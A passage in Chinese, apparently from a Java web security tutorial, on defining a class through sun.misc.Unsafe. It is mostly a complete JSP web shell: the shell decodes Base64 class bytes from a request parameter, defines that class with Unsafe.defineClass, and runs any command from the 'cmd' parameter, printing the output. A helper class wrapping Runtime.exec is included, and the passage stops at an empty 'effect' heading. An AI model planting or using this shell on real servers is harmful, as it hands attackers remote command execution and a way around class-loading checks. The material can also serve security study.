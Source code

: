 4. **sun.misc.Unsafe**

正常情况下我们可以重写 ClassLoader 类来实现定义任意的类，但是某些时候我们无法通过自定义 ClassLoader 来定义类的时候可以使用这种方式来定义一个 class ，但是前提条件是在 JDK11 之前的版本。

shell文件：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%@ page import="sun.misc.Unsafe" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%
    String className = "Unsafe";
    Class clazz = null;

    try {
        clazz = Class.forName(className);
    } catch (ClassNotFoundException e) {
        byte[] bytes = new BASE64Decoder().decodeBuffer(request.getParameter("bytes"));

        Field f = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
        f.setAccessible(true);

        clazz = ((Unsafe) f.get(null)).defineClass(className, bytes, 0, bytes.length, getClass().getClassLoader(), null);
    }


    Process process = (Process) clazz.getMethod("exec", String.class).invoke(null, request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\A");
    out.println(s.hasNext() ? s.next() : "");
%>
```

构造的class文件：

```java
import java.io.IOException;

public class Unsafe {


	public static Process exec(String cmd) throws IOException {
		return Runtime.getRuntime().exec(cmd);
	}

}
```

效果：
